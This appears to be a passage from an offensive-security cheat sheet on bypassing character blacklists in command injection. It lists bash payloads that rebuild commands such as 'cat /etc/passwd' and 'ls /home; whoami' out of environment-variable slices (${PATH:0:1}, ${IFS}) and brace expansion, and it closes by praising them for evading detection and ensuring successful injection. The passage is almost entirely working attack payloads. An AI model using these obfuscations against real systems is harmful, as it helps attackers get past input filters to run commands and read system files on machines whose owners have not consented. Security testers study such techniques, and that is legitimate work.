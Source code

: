 **Progressive Character Bypass:**
```bash
# Level 1: Simple character replacement
original: ls /home
bypass:   ls${PATH:0:1}home

# Level 2: Multiple character bypass  
original: ls /home; whoami
bypass:   ls${PATH:0:1}home${LS_COLORS:10:1}${IFS}whoami

# Level 3: Complex string construction
original: cat /etc/passwd
bypass:   cat${IFS}${PATH:0:1}etc${PATH:0:1}passwd

# Level 4: Full command obfuscation
original: find /home -name "*.txt"
bypass:   {find,${PATH:0:1}home,-name,${PATH:0:1}*.txt}
```

This comprehensive guide to character filter bypasses enables sophisticated payload construction while evading detection, ensuring successful command injection even when multiple character classes are blacklisted. 